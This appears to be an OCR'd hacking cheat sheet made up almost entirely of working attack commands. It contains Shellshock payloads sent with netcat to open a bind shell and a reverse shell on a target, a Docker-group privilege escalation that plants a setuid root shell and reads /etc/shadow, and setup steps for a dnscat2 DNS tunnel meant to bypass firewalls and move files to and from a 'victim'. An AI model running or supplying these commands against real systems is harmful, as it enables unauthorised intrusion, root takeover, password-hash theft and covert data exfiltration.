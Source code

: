 	# bind shell
	$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 192.168.56.118 80
	# reverse Shell
	$ nc -l -p 443
	$ echo "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.56.103 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 192.168.56.118 80


	Root with Docker
	# get root with docker
	# user must be in docker group
	ek@victum:~/docker-test$ id
	uid=1001(ek) gid=1001(ek) groups=1001(ek),114(docker)
	ek@victum:~$ mkdir docker-test
	ek@victum:~$ cd docker-test
	ek@victum:~$ cat > Dockerfile
	FROM debian:wheezy
	ENV WORKDIR /stuff
	RUN mkdir -p $WORKDIR
	VOLUME [ $WORKDIR ]
	WORKDIR $WORKDIR
	<< EOF
	ek@victum:~$ docker build -t my-docker-image .
	ek@victum:~$ docker run -v $PWD:/stuff -t my-docker-image /bin/sh -c \
	'cp /bin/sh /stuff && chown root.root /stuff/sh && chmod a+s /stuff/sh'
	./sh
	whoami
	# root
	ek@victum:~$ docker run -v /etc:/stuff -t my-docker-image /bin/sh -c 'cat /stuff/shadow'


	Tunneling Over DNS to Bypass Firewall
	# Tunneling Data and Commands Over DNS to Bypass Firewalls
	# dnscat2 supports "download" and "upload" commands for getting files (data and programs) to and from # the victim’s host.
	# server (attacker)
	$ apt-get update
	$ apt-get -y install ruby-dev git make g++
	$ gem install bundler
	$ git clone https://github.com/iagox86/dnscat2.git
	$ cd dnscat2/server
	$ bundle install
	$ ruby ./dnscat2.rb
	dnscat2> New session established: 16059
	dnscat2> session -i 16059
	# client (victum)
	# https://downloads.skullsecurity.org/dnscat2/